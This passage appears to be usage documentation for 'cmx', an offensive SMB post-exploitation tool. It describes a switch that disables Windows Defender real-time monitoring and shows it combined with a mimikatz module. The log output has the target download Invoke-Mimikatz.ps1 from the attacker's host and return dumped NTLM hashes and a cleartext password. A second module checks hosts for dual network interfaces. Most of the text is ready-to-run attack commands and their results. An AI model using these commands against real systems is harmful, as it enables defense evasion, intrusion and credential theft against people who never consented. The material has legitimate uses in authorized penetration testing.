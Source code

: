 
|---------------+-------------+-------------+-------------+------------|
| Multiple_Host | Requires DC | Requires LA | Requires DA | Opsec_safe |
|---------------|-------------|-------------|-------------|------------|
| TRUE          | false       | true        | false       | false*     |
|---------------+-------------+-------------+-------------+------------|
{: .tablelines}

This executes `Set-MpPreference -DisableRealtimeMonitoring $true` to turn off real-time monitoring.
This switch is designed to be used in combination with other execution modules.

### Command Syntax  
`cmx smb TARGET -u Username -p Pass -kd <command>`

```
# cmx smb 192.168.0.103 -u eminem -p Admin\!23 -kd -M mimikatz
Mar.25.20 19:19:00  SMB      192.168.0.103  WIN7A   [*] Windows 6.1 Build 7601 x64 (domain:SWAMP) (signing:False) (SMBv:2.1)
Mar.25.20 19:19:00  SMB      192.168.0.103  WIN7A   [+] SWAMP\eminem:Admin!23 (Pwn3d!)
            [!] Sleeping to allow defender process to finish shutting down[!] 
Mar.25.20 19:19:10  MIMIK...    192.168.0.103        - - "GET /Invoke-Mimikatz.ps1 HTTP/1.1" 200 -
Mar.25.20 19:19:19  MIMIK...    192.168.0.103        - - "POST / HTTP/1.1" 200 -
Mar.25.20 19:19:19  MIMIK...    192.168.0.103           swamp.local\arianna:bbc2bf2fbca9dd9ed74d3c1b55e3d727
Mar.25.20 19:19:19  MIMIK...    192.168.0.103           swamp.local\WIN7A$:42d8cf1444bb879485532fea86c9e53e
Mar.25.20 19:19:19  MIMIK...    192.168.0.103           swamp.local\arianna:User!23
Mar.25.20 19:19:19  MIMIK...    192.168.0.103        [+] Added 3 credential(s) to the database
Mar.25.20 19:19:19  MIMIK...    192.168.0.103        Saved raw Mimikatz output to /root/.cmx/logs/Mimikatz_against_192.168.0.103_on_Mar.25.20_at_1919.log
```






------------------------------------------------------------------------
# Dual Homed

|---------------+-------------+-------------+-------------+------------|
| Multiple_Host | Requires DC | Requires LA | Requires DA | Opsec_safe |
|---------------|-------------|-------------|-------------|------------|
| TRUE          | false       | true        | false       | true       |
|---------------+-------------+-------------+-------------+------------|
{: .tablelines}

This module checks the nic's on a host to try and identify hosts that are dual homed. 

### Command Syntax  
`cmx smb TARGET -u Username -p Pass --dualhome`

```
# cmx smb 192.168.0.150 -u IEUser -p Passw0rd\! --dualhome
Apr.03.20 16:13:23  SMB      192.168.0.150 WIN10TEST [*] Windows 10.0 Build 17763 x64 (domain:WIN10TEST) (signing:False) (SMBv:3.0)
Apr.03.20 16:13:23  SMB      192.168.0.150 WIN10TEST [+] WIN10TEST\IEUser:Passw0rd! (Pwn3d!)
Apr.03.20 16:13:23  SMB      192.168.0.150 WIN10TEST    DNSDomainSuffixSearchOrder => []
Apr.03.20 16:13:23  SMB      192.168.0.150 WIN10TEST    IPAddress => ['192.168.0.150', 'fe80::a4d5:c938:3395:a8b4']
Apr.03.20 16:13:23  SMB      192.168.0.150 WIN10TEST
```
